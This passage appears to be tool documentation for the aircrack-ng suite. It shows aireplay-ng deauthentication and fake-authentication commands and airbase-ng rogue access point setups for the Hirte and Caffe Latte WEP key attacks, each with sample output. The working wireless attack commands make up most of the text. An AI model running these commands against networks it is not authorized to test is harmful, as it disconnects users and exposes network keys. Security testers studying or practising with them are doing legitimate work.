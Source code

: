 #### Deauthentication Attack <a href="#deauthentication-attack" id="deauthentication-attack"></a>

Run the deauthentication attack (`-0`), sending `5` packets to the wireless access point (`-a 8C:7F:3B:7E:81:B6`) to deauthenticate a wireless client (`-c 00:08:22:B9:41:A1`) via the monitor mode interface `wlan0mon`.

```
:~# aireplay-ng -0 5 -a 8C:7F:3B:7E:81:B6 -c 00:08:22:B9:41:A1 wlan0mon
12:41:56  Waiting for beacon frame (BSSID: 8C:7F:3B:7E:81:B6) on channel 6
12:41:57  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:41:58  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:41:58  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:41:59  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:42:00  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
```

#### Fake Authentication <a href="#fake-authentication" id="fake-authentication"></a>

Run the fake authentication attack and re-authenticate every 6000 seconds (`-1 6000`) against the access point (`-a F0:F2:49:82:DF:3B`) with the given ESSID (`-e FBI-Van-24`), specifying our mac address (`-h 3c:46:d8:4e:ef:aa`), using monitor mode interface `wlan0mon`.

```
:~# aireplay-ng -1 6000 -e FBI-Van-24 -a F0:F2:49:82:DF:3B -h 3c:46:d8:4e:ef:aa wlan0mon
12:49:59  Waiting for beacon frame (BSSID: F0:F2:49:82:DF:3B) on channel 6

12:50:06  Sending Authentication Request (Open System)
```

### airbase-ng Usage Examples <a href="#airbase-ng-usage-examples" id="airbase-ng-usage-examples"></a>

#### Hirte Attack – Access Point Mode <a href="#hirte-attack--access-point-mode" id="hirte-attack--access-point-mode"></a>

The Hirte attack attempts to retrieve a WEP key via a client. This example creates an access point on channel 6 (`-c 6`) with the specified ESSID (`-e TotallyNotATrap`) and uses the cfrag WEP attack (`-N`), setting the WEP flag in the beacons (`-W 1`).

```
:~# :~# airbase-ng -c 6 -e TotallyNotATrap -N -W 1 wlan0mon
15:51:11  Created tap interface at0
15:51:11  Trying to set MTU on at0 to 1500
15:51:11  Trying to set MTU on wlan0mon to 1800
15:51:11  Access Point with BSSID 3C:46:D8:4E:EF:AA started.
```

#### Caffe Latte Attack – Access Point Mode <a href="#caffe-latte-attack--access-point-mode" id="caffe-latte-attack--access-point-mode"></a>

As with the Hirte attack, the Caffe Latte Attack attempts to retrieve a WEP key via a client. This example creates an access point on channel 6 (`-c 6`) with the specified ESSID (`-e AlsoNotATrap`) and uses the Caffe Latte WEP attack (`-L`), setting the WEP flag in the beacons (`-W 1`).
